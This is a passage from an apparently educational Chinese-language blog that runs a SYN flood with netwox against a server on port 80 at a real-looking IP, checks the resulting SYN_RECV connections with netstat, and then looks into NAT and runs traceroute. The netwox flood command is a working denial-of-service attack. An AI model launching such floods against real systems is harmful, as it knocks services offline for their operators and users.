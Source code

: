 ### 3.1 使用工具进行SYN flooding攻击

```shell
--SYN flooding命令
sudo apt install netwox
sudo netwox 76 -i 49.234.233.219 -p 80 -s raw
--结果查看命令
sudo netstat -tnap | grep ":80" | wc -l
--结果
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5045/nginx: master  
tcp        0      0 172.17.0.4:80           103.40.221.154:36262    SYN_RECV    - 
tcp        0      0 172.17.0.4:80           103.40.221.154:33157    SYN_RECV    - 
tcp        0      0 172.17.0.4:80           103.40.221.154:17575    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:31834    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:40167    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:58454    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:57235    SYN_RECV    -          

```

### 3.2 NET地址转换

但是尴尬的是`Foreign Address`中的IP地址相同。推测下，可能是NET地址转换导致。

[网络地址转换NAT原理（易于理解）](https://blog.csdn.net/hzhsan/article/details/45038265) 网络地址端口转换`NAPT (Port-Level NAT)`,它将内部连接映射到外部网络中的一个单独的IP地址上，同时在该地址上加上一个由NAT设备选定的端口号。(正如上面 `Foreign Address`所示，IP相同，当端口不同)

那上面`103.40.221.154` 是路由器的公有IP？ 打开[ip138](https://www.ip138.com/)，发现并不是。。

我们尝试追踪下路由过程，如下所示，并没有什么发现。

[traceroute 查看路由信息](einverne.github.io/post/2017/06/traceroute.html) 下面我们只能看到每一跳的网关情况。一些行以星号表示，出现这样的情况，可能是防火墙封掉了 ICMP 的返回信息，所以得不到什么相关的数据包返回数据。

```shell
--命令
sudo apt install traceroute
traceroute 49.234.233.219
--结果
traceroute to 49.234.233.219 (49.234.233.219), 30 hops max, 60 byte packets
 1  _gateway (192.168.1.1)  8.574 ms  8.570 ms  8.561 ms
 2  10.131.32.1 (10.131.32.1)  19.337 ms  19.323 ms  19.310 ms
 3  172.20.0.101 (172.20.0.101)  13.009 ms 172.20.0.254 (172.20.0.254)  19.256 ms  19.250 ms
 4  172.31.15.13 (172.31.15.13)  19.251 ms  19.228 ms 172.31.16.13 (172.31.16.13)  20.484 ms
 5  172.31.7.9 (172.31.7.9)  14.031 ms  13.993 ms  14.416 ms
 6  10.4.40.1 (10.4.40.1)  16.647 ms  6.696 ms  8.957 ms
 7  * 10.4.19.1 (10.4.19.1)  35.333 ms  14.535 ms
 8  * * *
 9  * * 43.249.135.50 (43.249.135.50)  17.501 ms
10  * * 43.249.135.50 (43.249.135.50)  17.316 ms
11  * * *
12  * * *

```
